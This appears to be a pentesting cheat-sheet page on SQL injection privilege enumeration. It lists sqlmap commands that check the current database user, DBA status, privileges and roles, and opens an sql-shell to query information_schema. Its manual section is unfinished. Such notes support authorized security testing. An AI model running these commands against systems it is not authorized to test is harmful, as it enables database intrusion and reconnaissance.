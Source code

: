 # 06 - Privileges

Search Tag(s): #sqlmap #enumeration-and-discovery

## Automated

- Enumerate current user database and check if it's DB administrator.

```
$ sqlmap -u "<URL>" --random-agent --current-user --is-dba 
```

- Enumerate privileges

```
$ sqlmap -u "<URL>" --random-agent --privileges -U CU
```

- Enumerate roles.

```
$ sqlmap -u "<URL>" --random-agent --roles -U CU
```

## Manually

TODO: Fill this info

```
$ sqlmap -u "<URL>" --random-agent --sql-shell

sql-shell> SELECT GRANTEE, IS_GRANTABLE, PRIVILEGE_TYPE, TABLE_CATALOG FROM information_schema.USER_PRIVILEGES
```
